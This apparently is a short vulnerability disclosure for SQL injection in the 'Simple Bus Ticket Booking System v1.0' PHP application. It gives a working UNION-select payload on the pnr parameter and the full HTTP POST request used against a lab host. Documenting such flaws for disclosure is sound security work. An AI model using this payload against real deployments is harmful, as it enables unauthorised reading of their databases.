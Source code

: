 # Simple Bus Ticket Booking System v1.0 by codeastr.com has SQL injection

vendors: https://codeastro.com/simple-bus-ticket-booking-system-in-php-with-source-code/

Vulnerability File: /SimpleBusTicket/index.php

Vulnerability location: /SimpleBusTicket/index.php, phr

[+] Payload: pnr=111' union select 1,2,3,4,database(),6,7,8--+&pnr-search=

dbname = sbtbsphp ---> length = 8

```sql
POST /SimpleBusTicket/index.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

pnr=111' union select 1,2,3,4,database(),6,7,8--+&pnr-search=
```

![image](https://user-images.githubusercontent.com/54017627/167996121-70448464-132a-4f37-9658-07cb67e840ef.png)
